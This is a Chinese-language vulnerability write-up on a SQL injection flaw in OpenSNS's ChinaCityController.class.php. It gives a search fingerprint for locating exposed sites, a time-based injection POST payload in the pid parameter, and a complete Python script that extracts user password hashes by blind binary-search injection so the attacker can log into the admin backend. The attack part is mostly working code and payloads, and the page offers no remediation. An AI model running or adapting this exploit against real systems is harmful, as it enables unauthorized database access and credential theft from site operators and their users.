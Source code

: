 # OpenSNS ChinaCityController.class.php SQL注入漏洞

# OpenSNS ChinaCityController.class.php SQL注入漏洞

## 漏洞描述

OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154243943](/images/202205181542003.png)

存在漏洞的文件为`Addons/ChinaCity/Controller/ChinaCityController.class.php`

![image-20220518154255819](/images/202205181542896.png)

其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句

![image-20220518154306977](/images/202205181543058.png)

通过构造请求闭合SQL语句，造成SQL注入

```
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```

![image-20220518154329027](/images/202205181543124.png)

```python
通过二分法延时注入可以获取用户账号密码，登录后台

import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

![image-20220518154353118](/images/202205181543205.png)

